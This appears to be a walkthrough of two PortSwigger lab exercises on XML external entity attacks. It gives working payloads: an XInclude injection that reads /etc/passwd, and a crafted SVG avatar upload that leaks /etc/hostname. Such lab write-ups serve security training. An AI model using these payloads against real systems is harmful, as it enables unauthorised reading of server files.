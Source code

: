 ## Exploiting XInclude to retrieve files
### Reference: [PortSwigger: Exploiting XInclude to retrieve files](https://portswigger.net/web-security/xxe/lab-xinclude-attack)


### Solution
1. Visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.
2. Set the value of the ``productId`` parameter to:
```
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
```

## Exploiting XXE via image file upload
### Reference: [PortSwigger: Exploiting XXE via image file upload](https://portswigger.net/web-security/xxe/lab-xxe-via-file-upload)


### Solution 
1. Create a local SVG image with the following content:
```xml
<?xml version="1.0" standalone="yes"?>
    <!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
    <svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
        <text font-size="16" x="0" y="16">&xxe;</text>
    </svg>
```
2. Post a comment on a blog post, and upload this image as an avatar.
3. When you view your comment, you should see the contents of the ``/etc/hostname`` file in your image. Use the "Submit solution" button to submit the value of the server hostname.
